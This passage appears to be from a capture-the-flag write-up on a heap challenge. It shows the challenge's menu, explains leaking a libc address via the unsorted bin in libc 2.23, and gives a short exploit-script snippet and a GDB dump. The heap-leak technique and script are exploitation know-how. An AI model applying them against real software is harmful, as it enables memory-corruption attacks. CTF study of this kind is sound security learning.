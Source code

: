 ```
ᐊ 1. Add    ⅀ ℙ ∉ ⎳ ⎳ ᐅ
ᐊ 2. Show   ⅀ ℙ ∉ ⎳ ⎳ ᐅ
ᐊ 3. Edit   ⅀ ℙ ∉ ⎳ ⎳ ᐅ
ᐊ 4. Delete ⅀ ℙ ∉ ⎳ ⎳ ᐅ
 ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ

>> 4

⅀ ℙ ∉ ⎳ ⎳'s entry: 2

[+] ⅀ ℙ ∉ ⎳ ⎳ has been deleted!

 ᐃ ᐃ ᐃ ᐃ ᐃ ᐃ ᐃ ᐃ ᐃ ᐃ ᐃ
ᐊ 1. Add    ⅀ ℙ ∉ ⎳ ⎳ ᐅ
ᐊ 2. Show   ⅀ ℙ ∉ ⎳ ⎳ ᐅ
ᐊ 3. Edit   ⅀ ℙ ∉ ⎳ ⎳ ᐅ
ᐊ 4. Delete ⅀ ℙ ∉ ⎳ ⎳ ᐅ
 ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ

>> 2

⅀ ℙ ∉ ⎳ ⎳'s entry: 2

⅀ ℙ ∉ ⎳ ⎳'s type: 0X[U
⅀ ℙ ∉ ⎳ ⎳       :
 ᐃ ᐃ ᐃ ᐃ ᐃ ᐃ ᐃ ᐃ ᐃ ᐃ ᐃ
ᐊ 1. Add    ⅀ ℙ ∉ ⎳ ⎳ ᐅ
ᐊ 2. Show   ⅀ ℙ ∉ ⎳ ⎳ ᐅ
ᐊ 3. Edit   ⅀ ℙ ∉ ⎳ ⎳ ᐅ
ᐊ 4. Delete ⅀ ℙ ∉ ⎳ ⎳ ᐅ
 ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ ᐁ

>>
```
## Getting a Libc Leak

In a heap challenge, we typically want to get a libc leak, particularly since in this case, PIE is enabled so there would be no option to simply overwrite a GOT table entry or similar. In libc 2.23, freed chunks that are too big for fastbins ( > 0x80 bytes), will initially be placed in the unsorted bin. This is actually very valuable to us because freed chunks in the unsorted bin include a libc address, specifically for the offset main_arena+88, in both the forward pointer and backward pointer sections (the forward pointer is in the same place as the content area in an allocated chunk). All we have to do then is allocate and free a larger chunk and view it; I will note that I had to allocate an additional chunk after the one I planned to free, otherwise it seemed to just get rolled back into the top chunk directly.

So, after writing appropriate helper functions, the relevant snippet of my script looks like this:
```
add(1, b'a' * 0x17, 0x100, b'b' * (0x100-1)) #target for unsorted bin
add(2, b'c' * 0x17, 0x60, b'd' * (0x60-1)) #padding between chunk above and top chunk
delete(1)
show(1)
target.interactive()
```
Here is a view of GDB after freeing that chunk into the unsorted bin. Note the presence of the libc addresses in the heap bin.
```
gef➤  x/20gx 0x0000562594f42030
0x562594f42030: 0x0000000000000100      0x0000000000000111
0x562594f42040: 0x00007fb9b8e80b78      0x00007fb9b8e80b78
0x562594f42050: 0x6262626262626262      0x6262626262626262
0x562594f42060: 0x6262626262626262      0x6262626262626262
0x562594f42070: 0x6262626262626262      0x6262626262626262
```